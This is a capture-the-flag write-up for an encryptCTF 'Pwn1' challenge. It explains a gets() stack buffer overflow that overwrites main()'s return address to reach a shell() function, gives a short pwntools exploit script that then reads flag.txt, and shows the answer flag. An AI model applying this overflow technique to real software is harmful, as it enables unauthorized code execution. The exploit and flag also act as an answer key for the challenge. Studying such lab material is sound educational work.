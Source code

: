 # Pwn1
### 📄 Description
Can you retrieve the flag?

### ⚙ How to run it
```bash
./pwn1
```

### ⛔ Rules
Don't open the `flag.txt` file.

<details>
    <summary>
        <h2>🔑 Solution</h2>
    </summary>

We have to overflow the buffer named buffer and overwrite `main()` return address to point to the `shell()` function entry point in order to pop a shell. `gets()` is used for the input. Remembrer that `gets` doesn't check the buffer bounds.

```python
from pwn import *

context.binary = "./pwn1"

p = process()
p.sendline(b"A" * 128 + b"a" * 12 + p32(context.binary.functions["shell"].address))
p.sendline(b"cat flag.txt")
log.success(p.recvline_regex(rb".*{.*}.*").decode("ascii"))
```

<h3> 🚩 Flag </h3>

```plain
encryptCTF{Buff3R_0v3rfl0W5_4r3_345Y}
```
</details>